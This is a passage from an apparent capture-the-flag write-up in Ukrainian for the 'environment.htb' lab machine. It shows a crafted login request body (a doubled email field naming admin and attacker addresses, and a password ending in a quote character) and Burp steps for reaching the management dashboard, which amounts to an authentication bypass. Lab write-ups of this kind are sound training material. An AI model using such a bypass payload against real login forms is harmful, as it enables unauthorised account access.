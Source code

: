 ```http

_token=REgoc9V6MU0xdUsJMbSBVygImoZg0AgDh0KY4X7A&email=admin%40environment.htb,attacker%40environment.htb&password=admin%27&remember=False
```

Після відправлення запиту в Burp потрібно натиснути на `Show response in browser`, щоб бути перенаправленим на `environment.htb/management/dashboard`

![image](imgs/burp-preprod.png)

![image](imgs/preprod.png)
